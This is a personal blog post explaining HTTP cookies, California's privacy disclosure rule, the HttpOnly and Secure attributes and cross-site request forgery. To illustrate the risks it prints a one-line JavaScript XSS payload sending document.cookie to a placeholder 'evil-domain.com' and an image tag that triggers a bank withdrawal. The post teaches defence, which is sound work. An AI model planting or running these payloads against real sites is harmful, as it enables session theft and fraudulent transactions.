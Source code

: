 ```yaml
---
id: 385
title: Cookies Security
#date: 2018-08-27T17:44:07+00:00
author: Luhao
layout: post

categories:
  - Security
tags:
  - security
  - browser
---
```


Honestly, I was curious about the &#8220;cookie&#8221; promopt all the time but I didn&#8217;t really care about it until I came across the [The California Internet Privacy Bill](https://www.pillsburylaw.com/en/news-and-insights/california-internet-privacy-bill-signed-by-governor.html), then I knew why I often saw these on all kinds of website, but strangely, I have never seen this thing on chinese websites. Maybe we don&#8217;t respect the privacy of others, haha. But it really enlightened me on the thoughts about the privacy and the concerns about the security of cookies.

If any consumers of your web service are located in the state of California, you must:

- Explain &#8220;how you deal with&#8221; do-not-track requests.
- Make that information available in a conspicuous way from your homepage. (A text link to a privacy policy will do the trick)

Like this:

![](/assets/img/uploads/2018/cookies-e1535360025494.png)

In case you don&#8217;t know:

An HTTP cookie is a small piece of data that a server sends to the user&#8217;s web browser. The browser may store it and send it back with the next request to the same server.

Cookies are mainly used for three purposes:

- **Session management**

  Logins, shopping carts, game scores, or anything else the server should remember</p>

- **Personalization**

  User preferences, themes, and other settings

- **Tracking**

  Recording and analyzing user behavior

Cookies are sent with **every** request, so they can worsen performance (especially for mobile data connections). Modern APIs are recommended for client storage via Web storage API (**localStorage** and **sessionStorage**) and **IndexedDB**.

Cookies set:

<pre><code class="">HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
...
</code></pre>

Now, with every new request to the server, all previously stored cookies are sent to the server using the Cookie header.

<pre><code class="">GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
</code></pre>

## Security

**HttpOnly**

To prevent cross-site scripting (XSS) attacks, **HttpOnly** cookies are **inaccessible** to JavaScript&#8217;s Document.cookie API. Instead, they are only sent to the server.

An example of exploiting XSS vulnerabilites:

<pre><code class="language-javascript ">(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
</code></pre>

The **HttpOnly** cookie attribute can help by preventing access to cookie value through JavaScript.

**Secure**

A secure cookie is only sent to the server with a encrypted request over the **HTTPS** protocol. Even with Secure, sensitive information should never be stored in cookies, as they are inherently insecure and this flag can&#8217;t offer real protection.

So, we are supposed to set cookies like this:

<pre><code class="">Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
</code></pre>

**Cross-site request forgery (CSRF)**

There is an good example of explainning what is CSRF on [Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery).

Someone sent you a malicious link like this,

<pre><code class="">&lt;img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"&gt;
</code></pre>

If you are logged into your bank account and your cookies are still valid (and there is no other validation), you will transfer money as soon as you load the HTML that contains this image!

There are a few techniques that are used to prevent this from happening:

- input filtering
- confirmation required for any sensitive action
- short lifetime of cookies for sensitive actions

For more prevention tips, see the [OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>).

---

1.[Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
